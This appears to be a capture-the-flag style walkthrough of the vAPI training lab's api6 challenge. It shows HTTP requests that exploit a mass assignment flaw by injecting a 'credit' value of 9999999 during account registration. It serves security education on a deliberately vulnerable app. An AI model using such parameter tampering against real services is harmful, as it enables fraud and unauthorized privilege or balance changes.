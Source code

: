 We start by creating a user account:

```json
Request => "POST http://{{host}}/vapi/api6/user"
{
    "name":"name123",
    "username":"user123",
    "password":"pass123"
}
Response =>
{
    "name": "name123",
    "username": "user123",
    "id": 2
}
```

We can retrieve our user's account details with the following request:

```json
Request => "GET http://{{host}}/vapi/api6/user/me"
Response =>
{
    "id": 2,
    "name": "name123",
    "username": "user123",
    "credit": "0"
}
```

There is an interesting property called `credit` whose value is 0. What if we could change the credit value??

Let's create another user and forcefully set the credit value to 9999999.

```json
Request => "POST http://{{host}}/vapi/api6/user"
{
    "name":"newname",
    "username":"newuser",
    "password":"newpass",
    "credit":"9999999"
}
Response =>
{
    "name": "newname",
    "username": "newuser",
    "id": 6
}
```

Now, when we retrieve the account details of this account, we see that the credits has been successfully set at the time of account registration. This is an example of Mass Assignment.

![[flag6.png]]
